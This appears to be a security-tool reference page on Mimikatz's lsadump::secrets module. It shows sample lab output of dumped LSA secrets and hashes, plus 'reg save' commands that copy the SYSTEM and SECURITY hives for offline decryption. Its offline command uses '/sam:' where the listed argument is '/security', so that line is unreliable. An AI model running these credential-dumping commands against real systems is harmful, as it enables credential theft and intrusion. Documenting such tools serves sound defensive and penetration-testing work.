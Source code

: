 # secrets

`lsadump::secrets` can be used to [dump LSA secrets](https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets) from the registries. It retrieves the `SysKey` to decrypt `Secrets` entries. It has the following command line arguments:

* `/system` : The `SYSTEM` hive
* `/security` : The `SECURITY` hive

The registry key for the LSA secrets is `HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets`.

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "NTLM" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

{% hint style="warning" %}
This command requires elevated privileges (by previously running [privilege::debug](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # lsadump::secrets
Domain : WIN10
SysKey : 7e6804db6db0bbc15372ddf840962151

Local name : WIN10 ( S-1-5-21-1604892360-3618202543-1602915806 )
Domain name : hacklab ( S-1-5-21-2725560159-1428537199-2260736313 )
Domain FQDN : hacklab.local

Policy subsystem is : 1.18
LSA Key(s) : 1, default {9b57ea93-9de6-5d50-0497-034513ddc692}
  [00] {9b57ea93-9de6-5d50-0497-034513ddc692} 62dd3714cc6d8e08f2c90bb18d949eb4e7fddb2478342640c5dc78a68d165e05

Secret  : $MACHINE.ACC
cur/hex : 72 63 fe b7 2d bf 2f b3 6c c0 d4 f4 e7 2c 89 f0 79 9e 58 ee 28 38 90 11 40 57 a6 8a 06 cc 1b 64 6f 0e b7 10 fe 71 22 a5 13 ef 2d fa 9a 8d 77 37 45 10 8f f5 c2 9a b4 ef 39 8d 24 e5 2c ba 56 01 bc ae 1e be 87 bc c2 1d 42 d8 1f a8 a1 89 24 39 2c 0e 0f ce c3 62 9d ed 8a 22 4e 01 42 b9 9e 7f ac 81 d6 49 c6 7e c3 ec a1 3a e4 66 45 49 df 7e 42 34 74 c3 8c 57 3a 73 30 76 ea 3d 71 a0 ae 47 5e 25 fa 1f 01 d8 4b 35 07 5e 2e 3e 91 34 b4 02 76 13 aa 6a 14 44 87 44 9b 53 eb df 29 55 e0 bb 45 4d d9 cb 72 d2 ef 56 da 79 a0 05 bb f6 3c a4 5e 1f 0e 15 09 28 53 cc 3e fd 76 ea 29 64 97 21 c7 77 44 9e 36 6c 97 02 0c 06 7f ee 42 c4 44 c9 d8 d2 d4 7f fb 2f 80 23 75 da 3c 1a 3e 20 49 5c 94 68 63 cd 98 c5 30 90 b0 3c e4 3c 1b 29 0e fb
    NTLM:18a5bde65ac97f8c222214e61858218b
    SHA1:c88180373af4910b62c11c00d534de676bd8047b
old/text: 8us/0-5sE3:_bd4\B+nEqpI#j,[avKJ'7l5RpDew]EEXya=tZq7g,jAifx%-sgv)Seto+@aPtf];gmb=gSE4K?"D\B+ CBW>vD5*/k71q'iI#V4$otG4t9R[
    NTLM:2c60cae5c83d27b349e98662de463dfc
    SHA1:fd6e6c6616156dac734f87d1eec386fa29537d89

Secret  : DefaultPassword

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 2e f9 1d 55 e4 48 9b 62 c5 b6 fc da 08 59 8e 8c 9c b7 66 0e 72 a3 f9 7f 1c 35 ee d8 7f 47 c0 5e 3a 82 91 19 58 7f 24 77
    full: 2ef91d55e4489b62c5b6fcda08598e8c9cb7660e72a3f97f1c35eed87f47c05e3a829119587f2477
    m/u : 2ef91d55e4489b62c5b6fcda08598e8c9cb7660e / 72a3f97f1c35eed87f47c05e3a829119587f2477
old/hex : 01 00 00 00 2f 0f f4 5b 22 a8 e6 67 5b d9 49 c7 1d 21 ca aa 2a 11 59 bb 9f f3 b2 2a f3 13 e8 0a 0e 60 d3 4b 9e cc 6d 43 89 fd 17 86
    full: 2f0ff45b22a8e6675bd949c71d21caaa2a1159bb9ff3b22af313e80a0e60d34b9ecc6d4389fd1786
    m/u : 2f0ff45b22a8e6675bd949c71d21caaa2a1159bb / 9ff3b22af313e80a0e60d34b9ecc6d4389fd1786

Secret  : NL$KM
cur/hex : ae d1 f5 13 aa 67 ca 20 e6 8c a6 71 99 45 fe 0a b9 c8 3f e0 00 4d 0c a5 6b 1c 32 70 39 cf ee e8 f2 88 ff 54 fd a2 4f bd 07 be d6 ab 5d cb 2e bb 2a 0d ba c3 ae 92 d5 68 16 c2 f0 1c 53 52 2f 1d
old/hex : ae d1 f5 13 aa 67 ca 20 e6 8c a6 71 99 45 fe 0a b9 c8 3f e0 00 4d 0c a5 6b 1c 32 70 39 cf ee e8 f2 88 ff 54 fd a2 4f bd 07 be d6 ab 5d cb 2e bb 2a 0d ba c3 ae 92 d5 68 16 c2 f0 1c 53 52 2f 1d
```

### Offline Dumping

At first the `SYSTEM` and `SECURITY` hives must be obtained:

```
reg save HKLM\SYSTEM system.hive
reg save HKLM\security security.hive
```

Then the saved backups of `SYSTEM` and `SECURITY` hives can also be used offline:

```
mimikatz # lsadump::secrets /system:system.hive /sam:security.hive
```
